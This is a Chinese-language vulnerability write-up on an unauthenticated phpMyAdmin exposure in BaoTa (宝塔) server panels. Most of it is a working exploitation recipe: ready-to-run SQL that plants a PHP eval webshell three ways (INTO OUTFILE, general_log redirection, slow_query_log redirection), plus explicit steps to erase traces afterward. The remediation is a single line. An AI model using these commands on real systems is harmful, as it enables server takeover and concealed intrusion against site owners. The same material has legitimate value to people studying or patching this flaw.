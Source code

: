 ### 一 漏洞描述
宝塔Linux面板7.4.2版本和Windows面板6.8版本存在phpmyadmin未授权访问漏洞，phpmyadmin未鉴权，可通过特定地址直接登录数据库的漏洞。

### 二 漏洞利用
访问 `http://ip:888/pma`
直接登录 phpmyadmin


#### phpmyadmin写shell

==========================================

方法1 select into outfile直接写入:  
```
select "<?php @eval($_POST[cc]);?>" into outfile '/网站绝对路径/shell.php'
```
条件
```
select @@basedir;             查找绝对路径

show global variables like '%secure_file_priv%';    查看有没有配置 secure_file_priv 功能

NULL                          表示不允许导入或导出
/tmp                          表示只允许在 /tmp 目录导入导出
空                            表示不限制目录
```

方法2 日志文件写 shell

```
1、SHOW VARIABLES LIKE '%general%'                查看配置默认是关闭状态

2、set global general_log = on;                   开启general_log模式

3、set global general_log_file='日志路径\shell.php';       修改日志目录为shell地址 

4、select '<?php eval($_POST[cmd]);?>'            写入shell因为开启了日志记录功能，所执行的sql语句都会被记录在日志中

5、抹除痕迹
set global general_log_file='C:\\phpStudy\\MySQL\\data\\stu1.log';        修改日志目录为原来地址
set global general_log = off;                                                                      关闭general_log模式
```

方法3 慢查询日志写shell
```
1、show variables like '%slow_query_log%';                查看慢查询日志开启情况

2、set global slow_query_log=on;                          开启慢查询日志

3、set global slow_query_log_file='C:/phpStudy/WWW/shell.php';      修改日志文件存储的绝对路径

4、select '<?php @eval($_POST[shell]);?>' or sleep(10);   向日志文件中写入shell

5、使用慢查询日志时，只有当查询时间超过系统时间(默认为10秒)时才会记录在日志中，使用如下语句可查看系统时间：
show global variables like '%long_query_time%';  

```

### 三 漏洞修复
更新宝塔为最新版本

> 参考链接  
> https://www.cnblogs.com/bflw/p/13552367.html
> phpmyadmin getshell: https://blog.csdn.net/weixin_45495060/article/details/125221896
